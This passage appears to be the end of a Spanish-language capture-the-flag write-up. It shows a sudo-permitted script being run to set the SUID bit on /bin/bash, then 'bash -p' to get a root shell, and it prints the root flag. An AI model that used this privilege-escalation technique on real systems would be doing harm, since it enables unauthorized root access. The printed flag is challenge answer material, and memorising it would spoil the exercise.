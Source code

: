 Lo guardamos y ahora ejecutamos lo siguiente:

```shell
sudo /home/dark/hidden.py
```

No pondra:

```
Script ejecutado con éxito.
```

Y si vemos los permisos de la `bash`:

```
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

Vemos que ha funcionado, por lo que solo tendremos que poner:

```shell
bash -p
```

Y con esto ya seremos `root`, leeremos la flag de `root`:

> root.txt

```
dee080ee744e9fb38952f236457f543b
```
